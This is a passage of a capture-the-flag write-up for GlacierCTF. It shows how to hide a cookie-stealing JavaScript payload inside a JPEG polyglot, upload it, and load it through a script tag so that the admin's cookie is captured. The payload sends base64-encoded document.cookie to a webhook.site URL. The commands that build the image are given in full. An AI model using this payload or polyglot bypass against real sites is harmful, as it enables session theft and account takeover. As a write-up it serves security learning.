 Since we can upload files, embed the javascript to steal cookie in JPG file, so that we can load it from site

> https://github.com/Wuelle/js_jpeg_polyglot

```bash
cd /opt/sectools/web/XSS/Bypasses/js_jpeg_polyglot
```

Check example format of payload

```bash
┌──(bravosec㉿fsociety)-[/media/sf_Kali/ctf/GlacierCTF/js_jpeg_polyglot]
└─$ cat proof_of_concept/test.js
=alert("worked");
```

Craft a payload to steal cookie (Use `beef-xss` to open proxy if there was `HTTPONLY` set for cookie)

> `steal_cookie.js`

```javascript
=new Image().src="https://webhook.site/153036b5-ca9a-49d7-a0e0-4d194fce1d2e?c="+btoa(document.cookie);
```

Generate image payload

```bash
convert -size 100x100 xc:white gen.jpg
python polyglot.py gen.jpg steal_cookie.js out.jpg
```

Upload the image and to get image link

- The `charset` for `<script>` needs to be `ISO-8859-1` in order to work

Payload :

```javascript
Hello There !
<script charset="ISO-8859-1" src="/uploads/6565bfd29dba51701167058646034"></script>
```

Got the admin's cookie

![](/assets/obsidian/eef3b18fe7c81b42f787f42cc6caa982.png){:target='_blank'}
